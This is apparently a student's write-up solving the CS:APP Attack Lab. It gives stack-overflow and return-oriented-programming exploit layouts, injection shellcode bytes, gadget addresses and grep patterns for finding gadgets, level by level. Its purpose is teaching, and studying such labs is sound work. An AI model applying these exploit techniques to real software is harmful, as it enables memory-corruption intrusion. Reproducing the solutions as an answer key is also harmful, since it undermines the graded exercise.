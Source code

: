 The answer bytes can be found in `./answer/<lv>.txt`.

## Lv 1
Overwrite `0x401976`(the real ret addr) with `0x4017c0`(the func `touch1` addr). 

The address can be examined with `x 0x28+$rsp` when the program is inside the function `getbuf`.

## Lv 2

Use gdb to inspect the following address:
- the address of `cookie`: `0x6044e4`
- the address of original ret address: `0x5561dca0`
- address of `touch2`: `0x4017ec`

Then we need a piece of injection code to excute the call to `touch2`. The injection code should start from the bottom of the memory space for `buf`, with a sequence of `nop`. Then it comes to the setting of the argument and ret address for calling `touch2`. 

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Then set the address for calling `<touch2>`: [`0x5561dc98`, +8] = `0x4017ec0000000000`, where is the top of the memory space for `buf`.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 98 dc 61 55 	mov    $0x5561dc98,%rsp
   8:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
   f:	48 8b bf e4 44 60 00 	mov    0x6044e4(%rdi),%rdi
  16:	c3                   	ret
```

The stack should be like:
```
    addr of original ret -> addr of injection (0x5561dc78)
0x5561dca0 ^^^
buf:
    addr of touch2 (0x4017ec)
0x5561dc98 ^^^
injection:
    ret
    movq 0x6044e4(%rdi), %rdi
    movq $0, %rdi
    movq $0x5561dc98, %rsp
    nop...
0x5561dc78^^^
```

## Lv 3

Similar to Lv2:
- the value of `cookie`: `0x59b997fa`
- the corresponding little-endian value for the string `'59b997fa'`: `0x6166373939623935`
- the address of original ret address: `0x5561dca0`
- address of `touch3`: `0x4018fa`

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Now we define the place start from the bottom of the memory space for `buf` (`0x5561dc78`) as the new start of stack.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 78 dc 61 55 	mov    $0x5561dc78,%rsp
   8:	48 bf 35 39 62 39 39 	movabs $0x6166373939623935,%rdi
   f:	37 66 61 
  12:	6a 00                	push   $0x0
  14:	57                   	push   %rdi
  15:	48 89 e7             	mov    %rsp,%rdi
  18:	48 c7 c0 fa 18 40 00 	mov    $0x4018fa,%rax
  1f:	50                   	push   %rax
  20:	c3                   	ret
```

## Lv 4

const:
- cookie value: `0x59b997fa`
- touch2: `0x4017ec`

gadget:
- popq %rax : `0x4019cc`
- movq %rax, %rdi: `0x4019c5`

stack:
```asm
# [any byte] * 0x28
addr: 0x4019cc
0x59b997fa
addr: 0x4019c5
addr: 0x4017ec
```

## Lv 5

Use ChatGPT to form the byte sequence from farm:

![](assest/FrwhYyfWIAgAnNf.png)
![](assest/Frwhdc3WYAA_IFO.png)

Find a gadget to save %rsp:
```shell
grep -P '48 89 e[0-7] (90 )*c3' < dumpr.clean.d
```
get:
- mov %rsp, %rax : `0x401a06`

Find gadgets to add something:
```shell
grep -P '48 8d (.. ){0,4}c3' < dumpr.clean.d
```
get:
- lea (%rdi, %rsi, 1), %rax : `0x4019d6`

Find gadgets to move %rax:
```shell
grep -P '48 89 c[0-7] (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movq %rax, %rdi : `0x4019c5`

Find gadgets to move something to %rsi:
```shell
grep -P '89 .[6e] (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movl %ecx, %esi : `0x401a13`

Find gadgets to move something to %ecx:
```shell
grep -P '89 [c-f](1|9) (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movl %edx, %ecx : `0x401a34`

Find gadgets to move something to %edx:
```shell
grep -P '89 [c-f](2|a) (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movl %eax, %edx : `0x4019dd`

Finally, we can pop something to %eax:
- popq %rax : `0x4019cc`

The code be like:
```asm
mov %rsp, %rax : `0x401a06`
movq %rax, %rdi : `0x4019c5`
popq %rax : `0x4019cc`
movl %eax, %edx : `0x4019dd`
movl %edx, %ecx : `0x401a34`
movl %ecx, %esi : `0x401a13`
lea (%rdi, %rsi, 1), %rax : `0x4019d6`
movq %rax, %rdi : `0x4019c5`
call touch3
```

- the value of `cookie`: `0x59b997fa`
- the corresponding byte sequence encoding the string `'59b997fa'`: `35 39 62 39 39 37 66 61`

The stack should be like:
```
# [any byte] * 0x28
addr: 0x401a06
=== %rax is here ===
addr: 0x4019c5
addr: 0x4019cc
0x9*8=0x48
addr: 0x4019dd
addr: 0x401a34
addr: 0x401a13
addr: 0x4019d6
addr: 0x4019c5
addr: 0x4018fa (touch3)
35 39 62 39 39 37 66 61
```

Use ChatGPT to convert it:

![](assest/p3.png)
![](assest/p4.png)